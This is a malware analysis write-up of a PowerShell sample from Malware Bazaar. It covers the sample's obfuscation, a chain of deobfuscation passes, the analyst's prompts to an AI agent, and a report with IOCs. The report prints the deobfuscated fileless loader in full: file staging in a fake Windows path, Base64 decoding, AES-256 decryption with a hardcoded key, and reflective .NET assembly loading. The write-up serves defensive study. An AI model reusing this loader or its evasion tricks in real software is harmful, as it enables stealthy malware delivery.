

# Source

* Malware Bazaar: https://bazaar.abuse.ch/sample/b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb/
* File type: Powershell
* Size: ~20 KB

# Analysis

## Obfuscation

There were various forms of obfuscation used in the Powershell script.

* Define once, use multiple times:

```powershell
$OPTYSWDOBZGJOOB = "Hashing, a core concept in cryptography, is used to verify data integrity and enhance Security in various applications."
$ICSOFKXDVSGQQVOAXTF = $OPTYSWDOBZGJOOB.Substring(86, 1)
$PTNZPDXFIWRXDWGEVGMJ = $OPTYSWDOBZGJOOB.Substring(29, 1)
$YEIPKWXALCIQGSMVSU = $OPTYSWDOBZGJOOB.Substring(2, 1)
$ENSWPJLETAXKVFBEKHF = $OPTYSWDOBZGJOOB.Substring(22, 1)
$GIHKQEDZAFBRMYUSIOJXP = $OPTYSWDOBZGJOOB.Substring(14, 1)
$WSIAMDJDUSCQEAFWJQZCFQ = $OPTYSWDOBZGJOOB.Substring(118, 1)
```

* Character arithmetic + concatenation:

```powershell
$XMFRYOORWAJVKMMJ= $(([char](62 - 9))+([char](81 - 25))+([char](108 - 51))+([char](85 - 18))+([char](84 - 36))+([char](66 - 12))+([char](116 - 51))+([char](110 - 55))+([char](64 - 9))+([char](100 - 52))+([char](121 - 65))+([char](72 - 2))+([char](91 - 41))+([char](97 - 47))+([char](84 - 29))+([char](117 - 69))+([char](71 - 17))+([char](104 - 39))+([char](67 - 1))+([char](125 - 71))+([char](94 - 28))+([char](57 - 4))+([char](96 - 27))+([char](57 - 4))+([char](107 - 54))+([char](95 - 38))+([char](120 - 53))+([char](75 - 8))+([char](92 - 40))+([char](121 - 64))+([char](111 - 59))+([char](67 - 14))); 
```

* Indexing characters in a scrambled string and joining them:

```powershell
$THUZIVGCQQUBUZXBQMM = (& (("-OeVSbBvoGH1IuqC6tYRW8ncJNQpTK4ifEa0mx3kLX92MdZgryAjU5hzslD7PFw")[9,2,17,0,15,8,22,17,2,22,17] -join "") $MGQEGFWFESTWPQAJILL -Raw) + (& (("-OeVSbBvoGH1IuqC6tYRW8ncJNQpTK4ifEa0mx3kLX92MdZgryAjU5hzslD7PFw")[9,2,17,0,15,8,22,17,2,22,17] -join "") $YODADYOHXJDXDUSQBMPDKNY -Raw) + (& (("-OeVSbBvoGH1IuqC6tYRW8ncJNQpTK4ifEa0mx3kLX92MdZgryAjU5hzslD7PFw")[9,2,17,0,15,8,22,17,2,22,17] -join "") 
```

## Deobfuscation

Utilities: https://github.com/nikhilh-20/re_tools/tree/main/powershell

```
> .\PsPropagate-Constants.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb.ps1 C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass1.ps1
{"input_bytes":20063,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass1.ps1","substituted_reads":34,"changed":127,"output_bytes":7893,"folded_assignments":93

> .\PsRemove-DeadCode.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass1.ps1 -OutputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass2.ps1
{"input_bytes":7893,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass2.ps1","by_reason":"93x dead store","changed":93,"output_bytes":4329,"aggressive":false}

> .\PsCollapse-BlankLines.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass2.ps1 -OutputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass3.ps1
{"changed":6,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass3.ps1","output_bytes":4132,"input_bytes":4329}

> .\PsFold-Arithmetic.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass3.ps1 -OutputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass4.ps1
{"changed":85,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass4.ps1","output_bytes":3507,"input_bytes":4132}

> .\PsFold-CharConcat.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass4.ps1 -OutputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass5.ps1
{"changed":2,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass5.ps1","output_bytes":2663,"input_bytes":3507}

> .\PsFold-ArrayJoins.ps1 -InputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass5.ps1 -OutputFile C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass6.ps1
{"changed":3,"output_path":"C:\\Users\\Ashura\\Desktop\\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass6.ps1","output_bytes":2387,"input_bytes":2663}
```

## Functionality

### Prompt

```
/malware-analysis Analyze @C:\Users\Ashura\Desktop\b9d3848d39e24af3feef53b9cce4201c7503da827bd663c51a94766d75caeabb_pass6.ps1. Write report in markdown format into @report.md It should contain the below sections:

1. Executive summary
2. Details - avoid variable names granularity. retain behavioral specifics like created folder names, C2 contact, etc.
3. IOCs

Reference the source code when stating functionality. Like:
```<source_code>```
<functionality>

Use multiple Haiku sub-agents to confirm your findings.
```

### Flowchart Prompt

```
Based on @C:\Users\Ashura\Desktop\report.md, can a Mermaid flowchart be written into FLOW.mmd? Keep the flowchart in natural language. Avoid variable name granularity. You can retain created folder names and contacted C2
```

### Flowchart



### Report

#### Executive Summary

This script is a **fileless, in-memory .NET loader**. It does not download anything from the network — instead it reassembles an encrypted payload from three files that were already dropped on disk under a folder path designed to look like legitimate Windows Delivery Optimization telemetry data. It concatenates and Base64-decodes those files, decrypts the result with AES-256-CBC using a key and IV hardcoded directly in the script, and then loads the decrypted bytes as a .NET assembly straight into the current process's memory (`AppDomain`). It finishes by using .NET reflection to locate a specific class and method inside that assembly, instantiate it, and invoke it — executing the next stage entirely in memory, without ever writing an executable file to disk.

Because this script only reconstructs and executes a payload from local files (not present on the analysis machine), the actual final-stage functionality (its C2 protocol, persistence, exfiltration, etc.) is **not observable from this script alone** — it lives inside the decrypted assembly, which this stage never persists to disk. This script's role is purely the loader/launcher link in the attack chain.

#### Details

##### Step 1 — Type aliasing via `iex`

```powershell
$EVRBDAQLBHG = '[System.Security.Cryptography.CipherMode]' | &(('iex'))
$TCZUGGREOEFYQZ = '[System.Security.Cryptography.PaddingMode]' | &(('iex'))
$XTGOVEFGIUZVCLNSKBKH = '[System.appdomain]' | &(('iex'))
```
The script resolves three .NET types (`CipherMode`, `PaddingMode`, `AppDomain`) by piping their type-literal strings through `Invoke-Expression` rather than referencing them directly. This is a common lightweight obfuscation/AV-evasion trick — string-built type references are harder for static signatures to match than plain `[System.AppDomain]` usage.

##### Step 2 — Reassembling the payload from three split files

```powershell
$THUZIVGCQQUBUZXBQMM = (& ('Get-Content') 'C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\IAKFSHHVEHGYMFUVJTVHEW.txt' -Raw) + (& ('Get-Content') 'C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\KYOESUYZMRQNJKUMZMDMTL.txt' -Raw) + (& ('Get-Content') 'C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\IMPGLPCUGBHETNJUMVTDSE.txt' -Raw);
```
The script reads and concatenates the contents of **three text files**, all located in:

```
C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\
```

with random-looking filenames:
- `IAKFSHHVEHGYMFUVJTVHEW.txt`
- `KYOESUYZMRQNJKUMZMDMTL.txt`
- `IMPGLPCUGBHETNJUMVTDSE.txt`

This path is crafted to resemble genuine Windows Delivery Optimization / Update Session Orchestrator (USO) artifacts under `ProgramData`, blending the dropped payload fragments in with normal-looking OS telemetry paths to reduce analyst/AV suspicion. Splitting the encoded payload across three separate files is a simple technique to avoid a single large suspicious blob being flagged, and these files are expected to have been staged by an earlier stage of the infection chain (not present on this analysis system).

##### Step 3 — Base64 decoding

```powershell
$XJKUUHKSYEF = '[System.Convert]' | &(('iex'))
$XCEINDXICTGYO = $XJKUUHKSYEF::'fromBase64String'($THUZIVGCQQUBUZXBQMM)
```
The concatenated file contents are Base64-decoded into a raw byte array — this is the AES ciphertext.

##### Step 4 — AES-256-CBC decryption with hardcoded key/IV

```powershell
for ($i = 0; $i -lt '589C06A7708F22706AB6B5E559CC4945'.Length; $i += 2) {
   $KJFSZTDGAGXQN += $XJKUUHKSYEF::ToByte('589C06A7708F22706AB6B5E559CC4945'.Substring($i, 2), 16)
}
for ($i = 0; $i -lt 'EB166CE414D9EB5CC4A5AA510160F3749941B50415B2D571C71E4C0C3168FF7F'.Length; $i += 2) {
   $FVJRFMZIHYQFYAIA += $XJKUUHKSYEF::ToByte('EB166CE414D9EB5CC4A5AA510160F3749941B50415B2D571C71E4C0C3168FF7F'.Substring($i, 2), 16)
}
$RCUQVBPWUZMSTIYXMR = New-Object 'System.Security.Cryptography.aesManaged'
$RCUQVBPWUZMSTIYXMR.'keySize' = 256
$RCUQVBPWUZMSTIYXMR.'BlockSize' = 128
$RCUQVBPWUZMSTIYXMR.'Mode' = $EVRBDAQLBHG::CBC
$RCUQVBPWUZMSTIYXMR.'Padding' = $TCZUGGREOEFYQZ::PKCS7
$RCUQVBPWUZMSTIYXMR.'key' = $FVJRFMZIHYQFYAIA
$RCUQVBPWUZMSTIYXMR.'iv' = $KJFSZTDGAGXQN
$VLUWSFOZACSCPXTF = $RCUQVBPWUZMSTIYXMR.'Createdecryptor'()
```
Two hex strings are converted to byte arrays: a 16-byte IV (`589C06A7...`) and a 32-byte (256-bit) key (`EB166CE4...`). These configure an `AesManaged` object as **AES-256-CBC with PKCS7 padding**. The Base64-decoded ciphertext from Step 3 is then decrypted through a `CryptoStream`:

```powershell
$LLLCBHQESYBVXIVP = New-Object 'System.io.MemoryStream'
$GPOZVVILVDVTZUUBMZX = New-Object System.Security.Cryptography.CryptoStream $LLLCBHQESYBVXIVP, $VLUWSFOZACSCPXTF, 'Write'
$GPOZVVILVDVTZUUBMZX.'write'($XCEINDXICTGYO, 0, $XCEINDXICTGYO.Length)
$GPOZVVILVDVTZUUBMZX.'Close'()
$RBXQYCCYOKJALYOSOJHLW = $LLLCBHQESYBVXIVP.'toarray'()
```
The result is a plaintext byte array — this turns out to be a .NET assembly (PE image), not a text payload.

##### Step 5 — In-memory reflective assembly load and execution

```powershell
$TJMWSWFZYWEEFFUHGGVYDU= $XTGOVEFGIUZVCLNSKBKH::'Currentdomain'.Load($RBXQYCCYOKJALYOSOJHLW)
$CHYBLXUHTIZG=$TJMWSWFZYWEEFFUHGGVYDU.'gettype'($('PPAOMMAIKEGECWICJDLZGHCTJJKW.QMHQXYWOHIEWQJMFCHESCKXOLTNH'))
$IRFALWJDFAEXI = $CHYBLXUHTIZG.'getMethod'($('CNGAXHANAQCSJNSGZWWPPZVTKSEF'))
$JALQZUOHMQBHLLKI = $CHYBLXUHTIZG.'getConstructor'(@()).'invoke'(@())
$IRFALWJDFAEXI.'invoke'($JALQZUOHMQBHLLKI , @())
```
The decrypted bytes are loaded directly as a .NET assembly into the current process via `[System.AppDomain]::CurrentDomain.Load(bytes)` — this is a classic **fileless / reflective assembly loading** technique: the payload assembly never touches disk as a `.exe`/`.dll` file. The script then:
1. Looks up a specific type inside the loaded assembly (obfuscated namespace/class name `PPAOMMAIKEGECWICJDLZGHCTJJKW.QMHQXYWOHIEWQJMFCHESCKXOLTNH`).
2. Looks up a specific method on that type (obfuscated name `CNGAXHANAQCSJNSGZWWPPZVTKSEF`).
3. Instantiates the type using its parameterless constructor.
4. Invokes the located method on that instance with no arguments — handing off execution to the next stage entirely in memory.

#### IOCs

* File paths
```
C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\IAKFSHHVEHGYMFUVJTVHEW.txt
C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\KYOESUYZMRQNJKUMZMDMTL.txt
C:\ProgramData\DeliveryCurrentControlSet\SessionManager\Optimization\USOShared\IMPGLPCUGBHETNJUMVTDSE.txt
```
